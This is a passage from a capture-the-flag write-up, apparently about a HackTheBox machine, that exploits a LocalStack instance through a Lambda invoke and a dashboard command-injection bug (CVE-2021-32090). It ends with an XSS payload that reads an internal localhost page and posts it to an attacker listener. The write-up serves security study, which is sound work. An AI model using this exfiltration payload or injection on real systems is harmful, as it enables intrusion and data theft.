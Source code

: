     
    
    oxdf@hacky$ aws lambda invoke --function-name ex --endpoint-url http://s3-testing.stacked.htb out.json
    {
        "StatusCode": 200,
        "LogResult": "",
        "ExecutedVersion": "$LATEST"
    }
    oxdf@hacky$ cat out.json 
    "2021/08/25/[$LATEST]e8413d1630b798e88ef9005ff0f5ab93"
    

### Fail - Lambda Rev Shell

My first instinct when I get this kind of execution is to use it to get a
shell. In hindsight, this doesn’t make a ton of sense. A Lambda function can
be thought of as spinning up a relatively empty container, running the
function, and then tearing that container down. Even with execution in the
container, there won’t be anything there, and it will die off quickly.

### RCE on LocalStack

#### Background

Some googling for “exploit localstack lambda” leads to [this
article](https://blog.sonarsource.com/hack-the-stack-with-localstack) by
SonarSource, which includes a command injection vulnerability in LocalStack,
CVE-2021-32090. The idea here is that there is a command injection in the
function name that is triggered when it’s displayed on the web dashboard.

The default port for the dashboard is 8080, so based on the config I leaked
earlier, it seems like that is enabled (though only available on localhost):

    
    
        ports:
          - "127.0.0.1:443:443"
          - "127.0.0.1:4566:4566"
          - "127.0.0.1:4571:4571"
          - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
    

Since all of those services are listening on localhost, only if there’s
something forwarding the port on can I access it. Given that Apache is hosting
the web server, it seems that requests to `s3-testing.stacked.htb` are being
sent to the LocalStack container. But I haven’t found anything forwarding to
the dashboard on 8080.

#### Dashboard

For this to work, I need to prove the dashboard exists. I’ll create another
XSS payload to try to fetch and return the it:

    
    
    var mail1req = new XMLHttpRequest();    
    mail1req.onreadystatechange = function() {    
      if (mail1req.readyState == 4) {    
        var exfilreq = new XMLHttpRequest();    
        exfilreq.open("POST", "http://10.10.14.6:9001/", false);    
        exfilreq.send(mail1req.response);    
      }    
    };    
    mail1req.open('GET', 'http://localhost:8080/', false);    
    mail1req.send();   
    